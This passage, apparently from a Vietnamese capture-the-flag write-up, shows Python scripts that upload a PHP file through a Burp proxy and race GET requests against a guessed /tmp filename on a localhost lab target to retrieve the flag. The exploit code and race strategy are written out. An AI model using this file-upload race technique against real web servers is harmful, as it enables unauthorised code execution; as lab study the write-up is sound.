 ```python 
try:
    response = requests.post(
        UPLOAD_URL,
        files=files,
        proxies=proxies,  # Remove this line to skip Burp
        verify=False  # Skip SSL verification if needed
    )
    print(f"POST Response ({response.status_code}):\n{response.text}")
except Exception as e:
    print(f"POST Error: {e}")
```

```python
import requests

# Burp Suite Proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# Predictable access URL
EXPLOIT_URL = f"http://localhost:8001/tmp/0089.php"

try:
    response = requests.get(
        EXPLOIT_URL,
        proxies=proxies,  # Remove to skip Burp
        verify=False
    )
    print(f"GET Response ({response.status_code}):\n{response.text}")
except Exception as e:
    print(f"GET Error: {e}")
```

![image](https://hackmd.io/_uploads/ryTI2bvsxl.png)

Tiến hành chạy POST ở đây burp đã bắt được đoạn upload lên bây giờ ta sẽ chạy GET và forward xem nó sẽ trả về gì.

![image](https://hackmd.io/_uploads/B1eRsh-vixx.png)

Sau khi forward có thể thấy GET vẫn được trả về nhưng kết quả sẽ là 404 vì ở đây nó sẽ random ra file khác nên nếu chưa trùng tên thì kết quả sẽ không ra bây giờ ta sẽ thử script khai thác.

Ở đây tôi sẽ viết script sẽ gửi POST và GET request sẽ xảy ra nhanh nghĩa là sau khi POST file php lên thì ngay lập tức gửi GET request để lấy nội dung và với vấn đề về đoạn random ở tên file trong thư mục `/tmp` thì mình sẽ để cố định dãy số nào đó `(vd : 0086.php)` và lặp đi lặp lại quá trình request đến khi nó chạm đúng vào file `0086.php` và lấy được flag ở đây mình tạo 10001 request và chờ thôi nếu nhân phẩm tốt thì flag sẽ ra sớm còn không thì chờ.

![image](https://hackmd.io/_uploads/HkeRZn0wsgl.png)
